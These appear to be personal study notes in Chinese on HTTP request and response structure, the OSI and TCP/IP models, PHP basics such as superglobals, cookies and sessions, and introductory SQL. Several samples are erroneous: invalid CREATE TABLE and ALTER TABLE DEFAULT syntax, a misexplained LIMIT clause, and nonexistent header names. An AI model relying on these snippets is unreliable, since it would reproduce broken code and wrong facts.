   - 一个绝对路径，末尾跟上一个 ' ? ' 和查询字符串。这是最常见的形式，称为 原始形式 (origin form)，被 GET，POST，HEAD 和 OPTIONS 方法所使用。 `POST / HTTP/1.1 GET /background.png HTTP/1.0 HEAD /test.html?query=alibaba HTTP/1.1 OPTIONS /anypage.html HTTP/1.0`

   - 一个完整的 URL，被称为 绝对形式 (absolute form)，主要在使用 `GET` 方法连接到代理时使用。 `GET http://developer.mozilla.org/en-US/docs/Web/HTTP/Messages HTTP/1.1`
   - 由域名和可选端口（以`':'`为前缀）组成的 URL 的 authority component，称为 authority form。 仅在使用 `CONNECT` 建立 HTTP 隧道时才使用。 `CONNECT developer.mozilla.org:80 HTTP/1.1`
   - *星号形式 (asterisk form)，一个简单的星号 (`'*'`)，配合 `OPTIONS` 方法使用，代表整个服务器。 `OPTIONS * HTTP/1.1`

3. HTTP 版本 (HTTP version)，定义了剩余报文的结构，作为对期望的响应版本的指示符。


**Headers**
来自请求的 HTTP headers 遵循和 HTTP header 相同的基本结构：不区分大小写的字符串，紧跟着的冒号 `(':')` 和一个结构取决于 header 的值。 整个 header（包括值）由一行组成，这一行可以相当长。

有许多请求头可用，它们可以分为几组：

- General headers，例如 Via，适用于整个报文。
- Request headers，例如 User-Agent，Accept-Type，通过进一步的定义 (例如 Accept-Language)，或者给定上下文 (例如 Referer)，或者进行有条件的限制 (例如 If-None) 来修改请求。
- Entity headers，例如 Content-Length，适用于请求的 body。显然，如果请求中没有任何 body，则不会发送这样的头文件。


**Body**
请求的最后一部分是它的 body。不是所有的请求都有一个 body：例如获取资源的请求，GET，HEAD，DELETE 和 OPTIONS，通常它们不需要 body。 有些请求将数据发送到服务器以便更新数据：常见的的情况是 POST 请求（包含 HTML 表单数据）。

Body 大致可分为两类：

- Single-resource bodies，由一个单文件组成。该类型 body 由两个 header 定义： Content-Type 和 Content-Length.
- Multiple-resource bodies，由多部分 body 组成，每一部分包含不同的信息位。通常是和 HTML Forms 连系在一起。

##### **响应**

HTTP 响应的一个例子：


**状态行**

HTTP 响应的起始行被称作 状态行 *(status line)*，包含以下信息：

1. 协议版本，通常为 `HTTP/1.1。`
2. *状态码* (status code)，表明请求是成功或失败。常见的状态码是 `200`，`404`，或 `302`)。
3. 状态文本 (status text)。一个简短的，纯粹的信息，通过状态码的文本描述，帮助人们理解该 HTTP 消息。

一个典型的状态行看起来像这样：`HTTP/1.1 404 Not Found`。


响应的 HTTP headers 遵循和任何其它 header 相同的结构：不区分大小写的字符串，紧跟着的冒号 `(':')` 和一个结构取决于 header 类型的值。 整个 header（包括其值）表现为单行形式。

有许多响应头可用，这些响应头可以分为几组：

- General headers，例如 Via，适用于整个报文。
- Response headers，例如 Vary 和 Accept-Ranges，提供其它不符合状态行的关于服务器的信息。
- Entity headers，例如 Content-Length，适用于请求的 body。显然，如果请求中没有任何 body，则不会发送这样的头文件。


**Body**
响应的最后一部分是 body。不是所有的响应都有 body：具有状态码 (如 201 或 204) 的响应，通常不会有 body。

Body 大致可分为三类：

- Single-resource bodies，由已知长度的单个文件组成。该类型 body 由两个 header 定义：Content-Type 和 Content-Length。
- Single-resource bodies，由未知长度的单个文件组成，通过将 Transfer-Encoding 设置为 chunked来使用 chunks 编码。
- Multiple-resource bodies，由多部分 body 组成，每部分包含不同的信息段。但这是比较少见的。


HTTP协议请求行

```
Method Request-URI HTTP-Version CRLF
```

“Method”表示请求方法；“Request-URI”是一个统一资源标识符；“HTTP-Version”表示请求的HTTP协议版本；“CRLF”表示回车和换行


**GET 的语义是从服务器获取指定的资源**，这个资源可以是静态的文本、页面、图片视频等。GET 请求的参数位置一般是写在 URL 中，URL 规定只能支持 ASCII，所以 GET 请求的参数只允许 ASCII 字符 ，而且浏览器会对 URL 的长度有限制（HTTP协议本身对 URL长度并没有做任何规定）。

**POST 的语义是根据请求负荷（报文body）对指定的资源做出处理**，具体的处理方式视资源类型而不同。POST 请求携带数据的位置一般是写在报文 body 中， body 中的数据可以是任意格式的数据，只要客户端与服务端协商好即可，而且浏览器不会对 body 大小做限制。


http协议消息报头

HTTP消息由客户端到服务器的请求和服务器到客户端的响应组成。请求消息和响应消息都是由开始行（对于请求消息，开始行就是请求行，对于响应消息，开始行就是状态行），消息报头（可选），空行（只有CRLF的行），消息正文（可选）组成。 HTTP消息报头包括普通报头、请求报头、响应报头、实体报头。

报头域的组成

```
名字 + ：+ 空格 + 值
```

消息报头域的名字是大小写无关的


常用的请求报头
Accept
Accept请求报头域用于指定客户端接受哪些类型的信息。Accept：image/gif，表明客户端希望接受GIF图象格式的资源；Accept：text/html，表明客户端希望接受html文本。


Accept-Encoding
Accept-Encoding请求报头域类似于Accept，但是它是用于指定可接受的内容编码。Accept-Encoding:gzip.deflate.如果请求消息中没有设置这个域服务器假定客户端对各种内容编码都可以接受。


Accept-Language                                                                                                                                                                                              Accept-Language请求报头域类似于Accept，但是它是用于指定一种自然语言。Accept-Language:zh-cn.如果请求消息中没有设置这个报头域，服务器假定客户端对各种语言都可以接受。


Authorization
Authorization请求报头域主要用于证明客户端有权查看某个资源。当浏览器访问一个页面时，如果收到服务器的响应代码为401（未授权），可以发送一个包含Authorization请求报头域的请求，要求服务器对其进行验证。


Host（发送请求时，该报头域是必需的）
Host请求报头域主要用于指定被请求资源的Internet主机和端口号，它通常从HTTP URL中提取出来的，eg：
我们在浏览器中输入：http://www.baidu.com/index.html
浏览器发送的请求消息中，就会包含Host请求报头域，如下：
Host：www.baidu.com
此处使用缺省端口号80，若指定了端口号，则变成：Host：www.baidu.com:指定端口号


User-Agent
我们上网登陆论坛的时候，往往会看到一些欢迎信息，其中列出了你的操作系统的名称和版本，你所使用的浏览器的名称和版本，这往往让很多人感到很神奇，实际上，服务器应用程序就是从User-Agent这个请求报头域中获取到这些信息。User-Agent请求报头域允许客户端将它的操作系统、浏览器和其它属性告诉服务器。不过，这个报头域不是必需的，如果我们自己编写一个浏览器，不使用User-Agent请求报头域，那么服务器端就无法得知我们的信息了。


cookie																																													                                      用于从客户端向服务器发送提交cookie信息验证，然后浏览器会将数据设置给下次请求的Cookie请求头，返回服务器				

语法	Cookie: name=value; name2=value2; name3=value3


HTTP请求正文

它将一个页面表单中的组件值通过param1=value1&param2=value2的键值对形式编码成一个格式化串，它承载多个请求参数的数据。不但报文体可以传递请求参数，请求URL也可以通过类似于“/chapter15/user.html? param1=value1&param2=value2”的方式传递请求参数。


## TCP/IP

为了使得多种设备能通过网络相互通信，和为了解决各种不同设备在网络互联中的兼容性问题，国际标准化组织制定了开放式系统互联通信参考模型（*Open System Interconnection Reference Model*），也就是 OSI 网络模型，该模型主要有 7 层，分别是应用层、表示层、会话层、传输层、网络层、数据链路层以及物理层。

每一层负责的职能都不同，如下：

- 应用层，负责给应用程序提供统一的接口；
- 表示层，负责把数据转换成兼容另一个系统能识别的格式；
- 会话层，负责建立、管理和终止表示层实体之间的通信会话；
- 传输层，负责端到端的数据传输；
- 网络层，负责数据的路由、转发、分片；
- 数据链路层，负责数据的封帧和差错检测，以及 MAC 寻址；
- 物理层，负责在物理网络中传输数据帧；


### `TCP` / `IP`体系结构

TCP/IP 网络通常是由上到下分成 4 层，分别是**应用层，传输层，网络层和网络接口层**。

TCP/IP 网络模型共有 4 层，分别是应用层、传输层、网络层和网络接口层，每一层负责的职能如下：

- 应用层，负责向用户提供一组应用程序，比如 HTTP、DNS、FTP 等;
- 传输层，负责端到端的通信，比如 TCP、UDP 等；
- 网络层，负责网络包的封装、分片、路由、转发，比如 IP、ICMP 等；
- 网络接口层，负责网络包在物理网络中的传输，比如网络包的封帧、 MAC 寻址、差错检测，以及通过网卡传输网络帧等；


#### 应用层

最上层的，也是我们能直接接触到的就是**应用层**（*Application Layer*），我们电脑或手机使用的应用软件都是在应用层实现。那么，当两个不同设备的应用需要通信的时候，应用就把应用数据传给下一层，也就是传输层。

所以，应用层只需要专注于为用户提供应用功能，比如 HTTP、FTP、Telnet、DNS、SMTP等。

而且应用层是工作在操作系统中的用户态，传输层及以下则工作在内核态。


#### 传输层

应用层的数据包会传给传输层，**传输层**（*Transport Layer*）是为应用层提供网络支持的。

在传输层会有两个传输协议，分别是 TCP 和 UDP。

当传输层的数据包大小超过 MSS（TCP 最大报文段长度） ，就要将数据包分块，这样即使中途有一个分块丢失或损坏了，只需要重新发送这一个分块，而不用重新发送整个数据包。在 TCP 协议中，把每个分块称为一个 **TCP 段**（*TCP Segment*）。


当设备作为接收方时，传输层则要负责把数据包传给应用，但是一台设备上可能会有很多应用在接收或者传输数据，因此需要用一个编号将应用区分开来，这个编号就是**端口**。

比如 80 端口通常是 Web 服务器用的，22 端口通常是远程登录服务器用的。而对于浏览器（客户端）中的每个标签栏都是一个独立的进程，操作系统会为这些进程分配临时的端口号。

由于传输层的报文中会携带端口号，因此接收方可以识别出该报文是发送给哪个应用。


#### 网络层

传输功能就**网络层**（*Internet Layer*）。

网络层最常使用的是 IP 协议（*Internet Protocol*），IP 协议会将传输层的报文作为数据部分，再加上 IP 包头组装成 IP 报文，如果 IP 报文大小超过 MTU（以太网中一般为 1500 字节）就会**再次进行分片**，得到一个即将发送到网络的 IP 报文。


我们一般用 IP 地址给设备进行编号，对于 IPv4 协议， IP 地址共 32 位，分成了四段（比如，192.168.100.1），每段是 8 位。

 IP 地址分成两种意义：

- 一个是**网络号**，负责标识该 IP 地址是属于哪个「子网」的；
- 一个是**主机号**，负责标识同一「子网」下的不同主机；

利用**子网掩码**能算出 IP 地址 的网络号和主机号。

举个例子，比如 10.100.122.0/24，后面的`/24`表示就是 `255.255.255.0` 子网掩码，将 10.100.122.2 和 255.255.255.0 进行**按位与运算**，就可以得到网络号。


#### 网络接口层

生成了 IP 头部之后，接下来要交给**网络接口层**（*Link Layer*）在 IP 头部的前面加上 MAC 头部，并封装成数据帧（Data frame）发送到网络上。


操作系统中的**协议栈**


- 应用程序需要通过系统调用，来跟 Socket 层进行数据交互；
- Socket 层的下面就是传输层、网络层和网络接口层；
- 最下面的一层，则是网卡驱动程序和硬件网卡设备


网络包接收的流程，右边部分刚好反过来，它是网络包发送的流程。


# PHP

#### 概述

基础 PHP 语法

PHP 脚本可放置于文档中的任何位置。

PHP 脚本以 *<?php* 开头，以 *?>* 结尾：

```
<?php
// 此处是 PHP 代码
?>
```

PHP 文件的默认文件扩展名是 ".php"。

PHP 文件通常包含 HTML 标签以及一些 PHP 脚本代码。


PHP 变量规则：

- 变量以 $ 符号开头，其后是变量的名称
- 变量名称必须以字母或下划线开头
- 变量名称不能以数字开头
- 变量名称只能包含字母数字字符和下划线（A-z、0-9 以及 _）
- 变量名称对大小写敏感（$y 与 $Y 是两个不同的变量）


php字符

单引号字符串是真正的字符串，不会解析字符串变量 双引号字符串，会解析字符串变量

定界符必须是<<<开头，后面接标识符，标识符自己可以自定义

定界符的结束符必须要顶格写 

默认情况下，字符串定界符中的变量会被解析，如果不需要解析变量，则标识符使用单引号来包裹


PHP echo 和 print 语句

echo 和 print 之间的差异：

- echo - 能够输出一个以上的字符串
- print - 只能输出一个字符串，并始终返回 1

echo 是一个语言结构，有无括号均可使用：echo 或 echo()。

print 也是语言结构，有无括号均可使用：print 或 print()。

print_r可以输出stirng、int、float、array、object等，输出array时会用结构表示，print_r输出成功时返回true；而且print_r可以通过print_r($str,true)来使print_r不输出而返回 print_r处理后的值


PHP var_dump() 会返回变量的数据类型和值


PHP foreach 循环

foreach 循环只适用于数组，并用于遍历数组中的每个键/值对。

```
foreach ($array as $value) {
  code to be executed;
}
```

每进行一次循环迭代，当前数组元素的值就会被赋值给 $value 变量，并且数组指针会逐一地移动，直到到达最后一个数组元素。


PHP 中创建数组

在 PHP 中， array() 函数用于创建数组：

```
array();
$arr = array('a','b','c'); //索引数组
print_r($arr);
$arr2 = ['name'=>'Jerry','age'=>18]; //关联数组
print_r($arr2);
```

count() 函数用于返回数组的长度（元素数）：

```
<?php
$cars=array("porsche","BMW","Volvo");
echo count($cars);
$cars = array
  (
  array("Volvo",22,18),
  array("BMW",15,13),
  array("Saab",5,2),
  array("Land Rover",17,15)
  );
 
?>
```


PHP 创建用户定义函数

用户定义的函数声明以单词 "function" 开头：

```
function functionName() {
  被执行的代码;
}
```


#### 超全局变量

PHP 中的许多预定义变量都是“超全局的”，这意味着它们在一个脚本的全部作用域中都可用。在函数或方法中无需执行 global $variable; 就可以访问它们。

这些超全局变量是：

- $GLOBALS
- $_SERVER
- $_REQUEST
- $_POST
- $_GET
- $_FILES
- $_ENV
- $_COOKIE
- $_SESSION


$GLOBALS 这种全局变量用于在 PHP 脚本中的任意位置访问全局变量（从函数或方法中均可）


通过使用 PHP 的全局数组 $_FILES，你可以从客户计算机向远程服务器上传文件。

第一个参数是表单的 input name，第二个下标可以是 "name", "type", "size", "tmp_name" 或 "error"。就像这样：

- `$_FILES["file"]["name"]` - 被上传文件的名称
- `$_FILES["file"]["type"]` - 被上传文件的类型
- `$_FILES["file"]["size"]` - 被上传文件的大小，以字节计
- `$_FILES["file"]["tmp_name"]` - 存储在服务器的文件的临时副本的名称
- `$_FILES["file"]["error"]` - 由文件上传导致的错误代码


$_SERVER 这种超全局变量保存关于报头、路径和脚本位置的信息。

| 元素/代码                       | 描述                                                         |
| :------------------------------ | :----------------------------------------------------------- |
| $_SERVER['PHP_SELF']            | 返回当前执行脚本的文件名。                                   |
| $_SERVER['GATEWAY_INTERFACE']   | 返回服务器使用的 CGI 规范的版本。                            |
| $_SERVER['SERVER_ADDR']         | 返回当前运行脚本所在的服务器的 IP 地址。                     |
| $_SERVER['SERVER_NAME']         | 返回当前运行脚本所在的服务器的主机名。                       |
| $_SERVER['SERVER_SOFTWARE']     | 返回服务器标识字符串（比如 Apache/2.2.24）。                 |
| $_SERVER['SERVER_PROTOCOL']     | 返回请求页面时通信协议的名称和版本（例如，“HTTP/1.0”）。     |
| $_SERVER['REQUEST_METHOD']      | 返回访问页面使用的请求方法（例如 POST）。                    |
| $_SERVER['REQUEST_TIME']        | 返回请求开始时的时间戳（例如 1577687494）。                  |
| $_SERVER['QUERY_STRING']        | 返回查询字符串，如果是通过查询字符串访问此页面。             |
| $_SERVER['HTTP_ACCEPT']         | 返回来自当前请求的请求头。                                   |
| $_SERVER['HTTP_ACCEPT_CHARSET'] | 返回来自当前请求的 Accept_Charset 头（ 例如 utf-8,ISO-8859-1） |
| $_SERVER['HTTP_HOST']           | 返回来自当前请求的 Host 头。                                 |
| $_SERVER['HTTP_REFERER']        | 返回当前页面的完整 URL（不可靠，因为不是所有用户代理都支持）。 |
| $_SERVER['HTTPS']               | 是否通过安全 HTTP 协议查询脚本。                             |
| $_SERVER['REMOTE_ADDR']         | 返回浏览当前页面的用户的 IP 地址。                           |
| $_SERVER['REMOTE_HOST']         | 返回浏览当前页面的用户的主机名。                             |
| $_SERVER['REMOTE_PORT']         | 返回用户机器上连接到 Web 服务器所使用的端口号。              |
| $_SERVER['SCRIPT_FILENAME']     | 返回当前执行脚本的绝对路径。                                 |
| $_SERVER['SERVER_ADMIN']        | 该值指明了 Apache 服务器配置文件中的 SERVER_ADMIN 参数。     |
| $_SERVER['SERVER_PORT']         | Web 服务器使用的端口。默认值为 “80”。                        |
| $_SERVER['SERVER_SIGNATURE']    | 返回服务器版本和虚拟主机名。                                 |
| $_SERVER['PATH_TRANSLATED']     | 当前脚本所在文件系统（非文档根目录）的基本路径。             |
| $_SERVER['SCRIPT_NAME']         | 返回当前脚本的路径。                                         |
| $_SERVER['SCRIPT_URI']          | 返回当前页面的 URI。                                         |


PHP $_REQUEST 用于收集 HTML 表单提交的数据。

PHP $_POST 广泛用于收集提交 method="post" 的 HTML 表单后的表单数据。`$_POST` 也常用于传递变量。

PHP $_GET 也可用于收集提交 HTML 表单 (method="get") 之后的表单数据。


htmlspecialchars() 函数把特殊字符转换为 HTML 实体


通过 PHP empty() 函数检查 $_POST 变量是否为空


preg_match 函数用于执行一个正则表达式匹配。

语法

```
int preg_match ( string $pattern , string $subject [, array &$matches [, int $flags = 0 [, int $offset = 0 ]]] )
```

搜索 subject 与 pattern 给定的正则表达式的一个匹配。

参数说明：

- $pattern: 要搜索的模式，字符串形式。
- $subject: 输入字符串。
- $matches: 如果提供了参数matches，它将被填充为搜索结果。 $matches[0]将包含完整模式匹配到的文本， $matches[1] 将包含第一个捕获子组匹配到的文本，以此类推。
- $flags：flags 可以被设置为以下标记值：
  1. PREG_OFFSET_CAPTURE: 如果传递了这个标记，对于每一个出现的匹配返回时会附加字符串偏移量(相对于目标字符串的)。 注意：这会改变填充到matches参数的数组，使其每个元素成为一个由 第0个元素是匹配到的字符串，第1个元素是该匹配字符串 在目标字符串subject中的偏移量。
- offset: 通常，搜索从目标字符串的开始位置开始。可选参数 offset 用于 指定从目标字符串的某个未知开始搜索(单位是字节)。

返回值

返回 pattern 的匹配次数。 它的值将是 0 次（不匹配）或 1 次，因为 preg_match() 在第一次匹配后 将会停止搜索。preg_match_all() 不同于此，它会一直搜索subject 直到到达结尾。 如果发生错误preg_match()返回 FALSE。


**PHP include 和 require 语句**
通过 include 或 require 语句，可以将 PHP 文件的内容插入另一个 PHP 文件（在服务器执行它之前）。

include 和 require 语句是相同的，除了错误处理方面：

require 会生成致命错误（E_COMPILE_ERROR）并停止脚本
include 只生成警告（E_WARNING），并且脚本会继续
因此，如果您希望继续执行，并向用户输出结果，即使包含文件已丢失，那么请使用 include。否则，在框架、CMS 或者复杂的 PHP 应用程序编程中，请始终使用 require 向执行流引用关键文件。这有助于提高应用程序的安全性和完整性，在某个关键文件意外丢失的情况下。

包含文件省去了大量的工作。这意味着您可以为所有页面创建标准页头、页脚或者菜单文件。然后，在页头需要更新时，您只需更新这个页头包含文件即可。


setcookie() 函数用于设置 cookie。

注释：setcookie() 函数必须位于 <html> 标签之前。

```
setcookie(name, value, expire, path, domain);
```

参数说明：
name：cookie名
value：cookie值
expire：过期时间，时间戳格式。不设置则在浏览器关闭后cookie失效。
path：服务器端有效路径。默认为当前设置cookie时页面的路径，’/‘表示整个域名有效，’/A’表示A分类目录下的页面有效。只有设置的路径包含的页面才可以拿到cookie值
domain：该cookie有效的域名，只有指定的域名才可以拿到cookie，默认所有域名都可以拿到。 如，“www.baidu.com”，也可是“.baidu.com”。


PHP 的 $_COOKIE 变量用于取回 cookie 的值。

在下面的例子中，我们取回了名为 "user" 的 cookie 的值，并把它显示在了页面上：

```
<?php
// Print a cookie
echo $_COOKIE["user"];

// A way to view all cookies
print_r($_COOKIE);
?>
```

在下面的例子中，我们使用 isset() 函数来确认是否已设置了 cookie：

```
<html>
<body>

<?php
if (isset($_COOKIE["user"]))
  echo "Welcome " . $_COOKIE["user"] . "!<br />";
else
  echo "Welcome guest!<br />";
?>

</body>
</html>
```


Session 的工作机制是：为每个访问者创建一个唯一的 id (UID)，并基于这个 UID 来存储变量。UID 存储在 cookie 中，亦或通过 URL 进行传导。

用户信息存储到 PHP session 中之前，首先必须启动会话。session_start() 函数必须位于 <html> 标签之前


存储和取回 session 变量使用 PHP $_SESSION 变量

```
<?php
session_start();
// store session data
$_SESSION['views']=1;
?>
<html>
<body>

</body>
</html>
```

unset() 函数用于释放指定的 session 变量


通过 session_destroy() 函数彻底终结 session


函数和过滤器
如需过滤变量，请使用下面的过滤器函数之一：

filter_var() - 通过一个指定的过滤器来过滤单一的变量
filter_var_array() - 通过相同的或不同的过滤器来过滤多个变量
filter_input - 获取一个输入变量，并对它进行过滤
filter_input_array - 获取多个输入变量，并通过相同的或不同的过滤器对它们进行过滤


连接到一个 MySQL 

在 PHP 中，这个任务通过 mysql_connect() 函数完成。


```
mysql_connect(servername,username,password);
```

| 参数       | 描述                                                         |
| :--------- | :----------------------------------------------------------- |
| servername | 可选。规定要连接的服务器。默认是 "localhost:3306"。          |
| username   | 可选。规定登录所使用的用户名。默认值是拥有服务器进程的用户的名称。 |
| password   | 可选。规定登录所用的密码。默认是 ""。                        |


使用 mysql_close() 函数关闭连接


```
mysqli_query()：执行SQL语句，失败时返回 FALSE，通过mysqli_query() 成功执行SELECT,
SHOW, DESCRIBE或 EXPLAIN查询会返回一个mysqli_result（数据库结果集） 对象，其他查询则
返回TRUE。
mysqli_insert_id()：获取插入记录自动增长的ID
mysqli_affected_rows($link)：获取受影响的记录数，返回-1，表示出现错误
mysqli_error()：获取执行SQL语句的错误信息
mysqli_errno()：获取执行SQL语句的错误码
```


# SQL

Mysql

linux

```
启动MySQL
service mysqld start
sudo mysql_secure_installation
登录MySQL
mysql -u root -p
关闭MySQL
sudo mysqladmin -u root shutdown
sudo service mysql stop
```


sql语句不区分大小写，结尾使用分号。

sql注释

```
单行--
多行 /* */
```


数据类型

对于一个关系表，除了定义每一列的名称外，还需要定义每一列的数据类型。关系数据库支持的标准数据类型包括数值、字符串、时间等：

| 名称         | 类型           | 说明                                                         |
| :----------- | :------------- | :----------------------------------------------------------- |
| INT          | 整型           | 4字节整数类型，范围约+/-21亿                                 |
| BIGINT       | 长整型         | 8字节整数类型，范围约+/-922亿亿                              |
| REAL         | 浮点型         | 4字节浮点数，范围约+/-1038                                   |
| DOUBLE       | 浮点型         | 8字节浮点数，范围约+/-10308                                  |
| DECIMAL(M,N) | 高精度小数     | 由用户指定精度的小数，例如，DECIMAL(20,10)表示一共20位，其中小数10位，通常用于财务计算 |
| CHAR(N)      | 定长字符串     | 存储指定长度的字符串，例如，CHAR(100)总是存储100个字符的字符串 |
| VARCHAR(N)   | 变长字符串     | 存储可变长度的字符串，例如，VARCHAR(100)可以存储0~100个字符的字符串 |
| BOOLEAN      | 布尔类型       | 存储True或者False                                            |
| DATE         | 日期类型       | 存储日期，例如，2018-06-22                                   |
| TIME         | 时间类型       | 存储时间，例如，12:20:59                                     |
| DATETIME     | 日期和时间类型 | 存储日期+时间，例如，2018-06-22 12:20:59                     |


**●DDL（Data Definition Language，数据定义语言）**

用来创建或者删除存储数据用的数据库以及数据库中的表等对象。DDL 包含以下几种指令。

**●DML（Data Manipulation Language，数据操纵语言）**

用来查询或者变更表中的记录。DML 包含以下几种指令。

**●DCL（Data Control Language，数据控制语言）**

用来确认或者取消对数据库中的数据进行的变更。除此之外，还可以对RDBMS 的用户是否有权限操作数据库中的对象（数据库表等）进行设定。DCL 包含以下几种指令。


主键（Primary Key）由表中的一个或者多个字段构成，用来唯一标识表中的每一行记录。可以将主键类比为学号、身份证号、车牌号或者 ID。主键必须包含唯一值，换句话说，所有记录的主键都不能出现相同的值。此外，主键必须是一个具体的值，不能是 NULL 值。

外键（Foreign Key）用于将两个表连接在一起，让两个表的数据保持同步。外键由表中的一个字段或者多个字段构成，一个表的外键用来指向另一个表的主键（Primary Key）。包含外键的表称为从表，被指向的表称为主表。从表的数据受到主表的约束，向从表中插入或者更新数据时，外键的值必须存在于主表的主键中。


CREATE： 创建数据库和表等对象

```
CREATE DATABASE university; 创建新数据库
CREATE TABLE stuendt(
id INT,
name, VARCHAR(10),
PRIMARY KEY (id),
);  创建新表
CREATE INDEX Index
ON stuendt(name);
```


DROP： 删除数据库和表等对象

```
DROP DATABASE university;
DROP TABLE student;
ALTER TABLE stuendt
DROP INDEX myIndex;
```


SHOW: 

```
SHOW DATABASES; 查看数据库
SHOW TABLES;  查看表
```


```
ALTER TABLE old_table_name RENAME TO new_table_name; 
RENAME old_table _name TO new_table_name;

old_table_name 为旧的表名，new_table_name 为新的表名。

DESC table_name;
```


INSERT：向表中插入新数据

1) 按指定的列插入数据，语法如下：

```sql
INSERT INTO table_name (column1, column2, column3,...columnN) 
VALUES (value1, value2, value3,...valueN);
```

column1, column2, column3,...columnN 表示要插入数据的列名，value1, value2, value3,...valueN 表示每列对应的值。

2) 为所有列插入数据，语法如下：

```sql
INSERT INTO table_name VALUES (value1,value2,value3,...valueN);
```

为表中所有列添加数据时，可以不在 SQL 语句中指明列的名称，但是，请您确保插入的值的顺序和表中各列的顺序相同。


SELECT：查询表中的数据

```sql
SELECT column1, column2, columnN
FROM table_name
WHERE conditions;
```

column1, column2, columnN 表示选取的列，conditions 表示筛选条件，只有满足条件的数据才会被选取。

希望选取所有的列，那么可以使用`*`代替所有列名，语法如下：

```sql
SELECT * FROM table_name;
```


SELECT 可以结合下面的子句一起使用：

- WHERE 子句：用来指明筛选条件，只有满足条件的数据才会被选取。
- ORDER BY 子句：按照某个字段对结果集进行排序。
- GROUP BY 子句：结合聚合函数，根据一个或多个列对结果集进行分组。
- HAVING 子句：通常和 GROUP BY 子句联合使用，用来过滤由 GROUP BY 子句返回的结果集。

WHERE 子句

 condition 条件中使用 >、<、= 等比较运算符，或者使用 AND、OR 等逻辑运算符来指定多个条件，或者使用 LIKE、NOT LIKE 等进行模糊匹配。

**AND** 运算符用于连接 WHERE 子句中的多个查询条件，只有当这些查询条件都被满足时，数据行（记录）才会被选取。

**OR** 运算符用于连接 WHERE 子句中的多个查询条件，只要满足其中一个条件，数据行（记录）就能被选取。

**LIKE** 子句用于在 WHERE 语句中进行模糊匹配，它会将给定的匹配模式和某个字段进行比较，匹配成功则选取，否则不选取。

LIKE 子句可以和通配符一起使用：

| 通配符                     | 说明                                                         |
| -------------------------- | ------------------------------------------------------------ |
| 百分号（%）                | 代表零个、一个或者多个任意的字符。                           |
| 下划线（_）                | 代表单个字符或者数字。                                       |
| [charlist]                 | 字符列表中的任何单一字符。可以使用连字符（-）根据 ASCII 编码指定一个字符范围，例如：[0-9] 表示从 0 到 9 的任一数字；[a-z] 表示小写英文字母；[a-zA-Z] 表示英文字母，不区分大小写；[a-zA-Z0-9] 表示英文字母和阿拉伯数字。 |
| [^charlist] 或 [!charlist] | 不在字符列表中的任何单一字符。同上，也可以使用连字符（-）指定一个字符范围。 |


```sql
SELECT DISTINCT column1 FROM table_name; 将列表column1的不同值单独显示出来
SELECT *FROM table_name WHERE condition; condition为限制条件
SELECT *FROM table_name WHERE column IN (value1, value2, ...); value1, 为要查询的值，可以为多个值。
SELECT column1, column2, ...FROM table_name WHERE column BETWEEN value1 AND value2; value1和value2为查询值的范围
 
 
SELECT column1, ...FROM table_name ORDER BY column1, ... ASC|DESC; 按column1的值排序
SELECT column1 FROM table_name LIMIT number1,number2; 取第number1行至number2行数据
```


UPDATE：更新表中的数据

**UPDATE** 语句用于修改数据表中现有的记录（数据行）。UPDATE 通常和 WHERE 子句一起使用，用以筛选满足条件的记录；如果不使用 WHERE 子句，那么表中所有的记录都将被修改.

带有 WHERE 子句的 UPDATE 命令的基本语法如下：

```sql
UPDATE table_name
SET column1 = value1, column2 = value2...., columnN = valueN
WHERE [condition];
```


DELETE：删除表中的数据

DELETE 语句用于删除数据表中现有的记录。DELETE 命令通常和 WHERE 子句一起使用，用以删除满足条件的记录；如果不使用 WHERE 子句，那么表中所有的记录都将被删除

带有 WHERE 子句的 DELETE 命令的基本语法如下：

```sql
DELETE FROM table_name
WHERE [condition];
```


在 SQL 中，关键字 NULL 用来表示缺失的值，也即空值，或者没有值。NULL 值不等同于零值，也不等同于包含空格的字段，表的字段默认允许存放 NULL 值，这意味着，您在插入记录或者更新记录时，可以不为该字段指定值，此时该字段将存储 NULL 值。

不能使用 =、<、> 等比较运算符来检测 NULL 值，而必须使用 IS NULL 或者 IS NOT NULL 关键字来检测 NULL 值。

表的字段可以包含 NULL 值，如果您不希望某个字段出现 NULL 值，那么可以在该字段上添加 NOT NULL 约束（非空约束），此时就必须给该字段指定一个具体的值，不能留空。

DEFAULT 约束用于给字段指定一个默认值，当使用 INSERT INTO 语句向表中插入数据时，如果没有为该字段提供具体的值，那么就使用这个默认值。

创建了 website 表，则可以使用 ALTER TABLE 语句将 DEFAULT 约束添加到 uv 字段，如下所示：

```
ALTER TABLE table_name uv FLOAT DEFAULT '10.0';
```

删除默认约束

借助 ALTER TABLE 语句也可以删除默认约束，如下所示：

```
ALTER TABLE  COLUMN uv DROP DEFAULT;
```


 JOIN 子句用于将两个或者多个表联合起来进行查询。

联合表时需要在每个表中选择一个字段，并对这些字段的值进行比较，值相同的两条记录将合并为一条。联合表的本质就是将不同表的记录合并起来，形成一张新表。当然，这张新表只是临时的，它仅存在于本次查询期间。

数据库中的表可以通过键将彼此联合起来，一个典型的例子是，将一个表的主键和另一个表的外键进行匹配。在表中，每个主键的值都是唯一的，这样做的目的是在不重复每个表中所有记录的情况下，将表之间的数据交叉捆绑在一起。

语法

使用 SQL JOIN 连接两个表的基本语法如下：

```
SELECT table1.column1, table2.column2... 选取需要展示的column
FROM table1
JOIN table2
ON table1.common_column1 = table2.common_column2; 匹配的选项
```

table1.common_column1 = table2.common_column2 是连接条件，只有满足此条件的记录才会合并为一行。您可以使用多个运算符来连接表，例如 =、>、<、<>、<=、>=、!=、BETWEEN、LIKE 或者 NOT，但是最常见的是使用 =。

当两个表中有同名的字段时，为了帮助数据库引擎区分是哪个表的字段，在书写同名字段名时需要加上表名，表名和字段名以点号`.`分隔，如下所示：

`table_name.column_name`

当然，如果书写的字段名在两个表中是唯一的，也可以不使用以上格式，只写字段名即可。


COMMIT： 确认对数据库中的数据进行的变更

ROLLBACK： 取消对数据库中的数据进行的变更

GRANT： 赋予用户操作权限

REVOKE： 取消用户的操作权限
